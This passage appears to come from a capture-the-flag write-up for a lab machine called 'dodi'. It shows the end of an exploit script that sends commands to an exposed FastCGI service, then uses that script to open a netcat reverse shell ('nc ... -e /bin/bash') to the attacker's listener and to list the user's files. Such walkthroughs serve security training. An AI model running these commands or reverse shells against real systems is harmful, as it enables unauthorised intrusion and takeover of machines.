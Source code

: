 ```sh
      cgi-fcgi -bind -connect $HOST:$PORT &> $OUTPUT

    # Print the output
    cat $OUTPUT
done
```

`chmod u+x ./exploit.sh`

`/exploit.sh 192.168.56.133 8888 "whoami"`:
```html
Content-type: text/html; charset=UTF-8

<!--dodi ←
--><!DOCTYPE html>
<html lang="en">

[...]

</html>
```

`nc -lvnp 5555`:
```
listening on [any] 5555 ... ←
```

`./exploit.sh 192.168.56.133 8888 "nc 192.168.56.118 5555 -e /bin/bash"`

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.133] 49112 ←
```

![Victim: dodi](https://img.shields.io/badge/Victim-dodi-64b5f6?logo=linux&logoColor=white)

`SHELL=/bin/bash script -q /dev/null`

`whoami`:
```
dodi ←
```

`id`:
```
uid=1001(dodi) gid=1001(dodi) groups=1001(dodi),100(users) ←
```

`cd /home/dodi`

`ls -alps ./`:
```
total 28
4 drwx------ 3 dodi dodi 4096 May 28 11:07 ./
4 drwxr-xr-x 4 root root 4096 May 20 15:14 ../
0 lrwxrwxrwx 1 root root    9 May 20 19:14 .bash_history -> /dev/null
4 -rw-r--r-- 1 dodi dodi  220 May 20 15:14 .bash_logout
4 -rw-r--r-- 1 dodi dodi 3526 May 20 15:14 .bashrc
4 drwxr-xr-x 3 dodi dodi 4096 May 20 15:14 .local/
4 -rw-r--r-- 1 dodi dodi  807 May 20 15:14 .profile
4 -rwx------ 1 dodi dodi   33 May 20 15:14 user.txt ←
```
